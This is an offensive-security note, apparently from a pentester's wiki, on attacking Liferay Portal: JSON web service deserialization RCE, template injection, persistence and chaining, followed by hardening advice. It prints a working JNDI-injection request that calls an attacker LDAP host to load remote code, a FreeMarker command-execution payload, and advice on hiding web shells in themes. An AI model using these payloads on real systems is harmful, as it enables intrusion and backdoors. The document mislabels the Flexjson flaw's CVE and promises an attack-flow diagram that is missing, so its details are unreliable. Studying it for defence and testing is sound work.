

# Liferay Portal Exploitation Techniques

## 1. Introduction to Liferay Portal

Liferay Portal is an enterprise-grade, open-source web portal framework heavily utilized to build corporate intranets, extranets, and highly customized web applications. Written in Java, Liferay allows administrators to deploy independent "portlets" into a cohesive, unified dashboard environment. Because of its modular architecture, robust permission system, and built-in Content Management System (CMS), it is widely adopted by global enterprises, government bodies, and educational institutions.

From an offensive security perspective, Liferay's complexity is its Achilles' heel. The platform relies on a massive amalgamation of APIs, internal routing mechanisms, Java serialization, and JSON web services. This extensive attack surface has historically resulted in devastating Remote Code Execution (RCE) flaws, most notably through unauthenticated JSON deserialization vulnerabilities.

---

## 2. Liferay Architecture and Attack Surface

To effectively test Liferay, one must understand its core architectural components:

### 2.1 Portlets
Portlets are pluggable user interface software components that are managed and displayed in a web portal. They produce fragments of markup code that are aggregated into a portal page. Vulnerabilities within individual custom portlets (such as Cross-Site Scripting, Insecure Direct Object References, or SQL Injection) are common, but the core Liferay engine is the primary target for system-level compromise.

### 2.2 JSON Web Services (JSONWS)
Liferay exposes an extensive API through its JSON Web Services. By default, Liferay makes thousands of API methods available. While many of these endpoints require authentication, some are exposed to unauthenticated users depending on the portal's configuration. Furthermore, how Liferay processes the incoming JSON data—specifically how it maps JSON data to underlying Java objects—has been the source of its most critical vulnerabilities.

### 2.3 The `/api/jsonws` Endpoint
Navigating to `/api/jsonws` (or `/api/jsonws/invoke`) usually brings up an interactive API console showing all registered services. This interface is an absolute goldmine for penetration testers as it clearly maps out the entire API attack surface.

---

## 3. Notable Liferay Vulnerability Classes

### 3.1 JSON Deserialization RCE (CVE-2020-0440 / CST-7111)
The most infamous vulnerability in Liferay is related to how the platform utilizes the `Flexjson` library to deserialize incoming JSON requests. If an attacker can specify the class type that Flexjson should instantiate during deserialization, they can instantiate arbitrary Java objects, leading to Remote Code Execution via Gadget Chains.

### 3.2 Authentication Bypasses and Privilege Escalation
Liferay's complex permission models frequently suffer from logical bypasses. Older versions allowed users to manipulate hidden form parameters or API arguments to elevate their privileges from standard users to Site Administrators or Portal Administrators.

### 3.3 Server-Side Template Injection (SSTI)
Liferay utilizes template engines like FreeMarker and Velocity to render dynamic content in Web Content, Themes, and Application Display Templates (ADTs). If an attacker with low-level content creation privileges can inject malicious FreeMarker code, they can execute commands on the underlying host.

---

## 4. Attack Flow: JSON Web Service Deserialization

Below is an ASCII representation of the exploitation process for a classic Liferay JSON Deserialization attack using Flexjson.



---

## 5. Exploitation Deep Dive: CVE-2020-0440 (Flexjson RCE)

### The Root Cause
Liferay used the `Flexjson` library to deserialize JSON requests into Java objects. Flexjson includes a feature where the JSON payload can dictate the class to be instantiated by including a `class` parameter. Liferay attempted to secure this by implementing a blacklist of dangerous classes.
However, attackers discovered bypasses. By chaining multiple nested objects, attackers could trick Flexjson into instantiating classes that eventually led to a JNDI injection or direct code execution.

### Exploitation Steps
1. **Identify the Target:** Check if `/api/jsonws` or `/api/jsonws/invoke` is accessible.
2. **Crafting the Gadget:** Instead of directly calling a blacklisted execution class, the attacker uses an alternative, un-blacklisted class. A popular gadget for Liferay involves the `C3P0` library or `HikariCP` connection pooling libraries.
3. **The Payload:** The payload is constructed to abuse the setter methods of the target class. When Flexjson reconstructs the object, it calls these setters, which trigger a JNDI lookup to an attacker-controlled RMI/LDAP server.

```json
POST /api/jsonws/invoke HTTP/1.1
Host: target.liferay.com
Content-Type: application/json

{
    "cmd": {
        "class": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
        "jndiName": "ldap://attacker.com:1389/Exploit",
        "loginTimeout": 0
    }
}
```

4. **Triggering the RCE:** Liferay parses the JSON, instantiates `JndiRefForwardingDataSource`, and calls `setJndiName()`. This triggers the LDAP lookup, which pulls a malicious Java class from the attacker server and executes it inside the Liferay JVM.

---

## 6. Post-Exploitation and Lateral Movement

### Template Implants for Persistence
Once administrative access is obtained, attackers often implant backdoors using Liferay's built-in CMS capabilities. By modifying a global Theme or creating a new Application Display Template (ADT) using Apache FreeMarker, an attacker can embed a stealthy web shell that executes every time a legitimate user visits the homepage.

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ex("id")}
```
*Note: Modern Liferay versions heavily restrict FreeMarker capabilities, requiring sandbox bypasses.*

### Database Extraction
Liferay's primary database contains everything from user hashes (typically PBKDF2 with SHA-256) to sensitive document metadata. Attackers will immediately look for `portal-ext.properties` or `portal-setup-wizard.properties` located in the Liferay Home directory, which contain the cleartext JDBC connection strings.

---

## 7. Defenses and Hardening

1. **Disable Unused JSONWS:** If the JSON Web Services API is not needed, it should be disabled or strictly restricted via network firewalls. Set `jsonws.web.service.api.discoverable=false` in `portal-ext.properties` to disable the interactive `/api/jsonws` console.
2. **Network Filtering:** Use a WAF or reverse proxy to block unauthenticated requests to `/api/jsonws/*` endpoints.
3. **Patching:** Keep Liferay DXP/CE updated to the latest fix packs. Recent versions completely overhauled the deserialization mechanism, dropping Flexjson in favor of more secure parsing implementations without polymorphic class instantiation by default.
4. **Harden Template Engines:** Ensure the FreeMarker and Velocity engines are operating in strict restricted modes (sandboxed) to prevent Server-Side Template Injection from escalating to OS command execution.
5. **Secure Administrative Endpoints:** The control panel (`/group/control_panel`) must be heavily guarded, ideally requiring multi-factor authentication or source-IP whitelisting.

---

## 8. Chaining Opportunities

- **Auth Bypass to RCE:** Many JSONWS endpoints require an authenticated session. If an attacker discovers an XSS vulnerability in a public-facing portlet, they can steal a standard user's session cookie, use it to authenticate to the JSONWS API, and deploy the Flexjson deserialization payload.
- **SSRF to Internal API:** An external, seemingly innocuous Server-Side Request Forgery vulnerability can be directed to `http://127.0.0.1:8080/api/jsonws/invoke`. Because the request originates from localhost, Liferay might bypass certain external IP restrictions, allowing an unauthenticated external attacker to trigger internal deserialization.

---

## 9. Related Notes

- [[01 - Oracle WebLogic Deserialization Vulnerabilities]] - Contrasts JSON-based deserialization with binary protocol (T3) deserialization mechanisms.
- [[05 - Java Deserialization ysoserial Deep Dive]] - Detailed breakdown of JNDI injection, C3P0, and the actual mechanics behind the RCE triggered in the Liferay payload.
- [[02 - Exploiting Adobe ColdFusion Server Vulnerabilities]] - Another perspective on targeting complex, multi-layered enterprise web applications and default admin panels.
- [[04 - Apache Struts Remote Code Execution]] - Useful comparison regarding how modern frameworks handle complex user-supplied data mapping.
